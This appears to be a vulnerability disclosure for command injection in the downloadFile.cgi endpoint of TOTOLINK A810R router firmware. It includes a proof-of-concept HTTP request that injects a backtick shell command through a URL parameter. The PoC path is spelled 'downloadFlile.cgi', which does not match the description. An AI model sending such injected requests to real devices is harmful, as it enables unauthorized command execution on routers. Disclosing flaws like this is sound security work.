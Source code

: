 # Command Injection
# A810R_Firmware
version: V5.9c.2280_B20180512
# Description
There is a command injection in downloadFile.cgi. 
This bug still exist in  [V5.9c.2280_B20180512](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/169/ids/36.html).
# Analyse
After obtaining the URL parameter, it is directly incorporated into the system function for execution without checking and filtering


![Snipaste_2022-09-10_16-25-46](https://user-images.githubusercontent.com/53329533/189476761-ae9092cd-e178-4cb1-83a3-15c2e9e4d48b.png)

![Snipaste_2022-09-10_16-39-50](https://user-images.githubusercontent.com/53329533/189476764-444f2ea3-4816-466f-aa6a-03a462df9a00.png)


# POC
```
GET /cgi-bin/downloadFlile.cgi?payload=`dw>../2.txt` HTTP/1.1
Host: 192.168.163.165
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

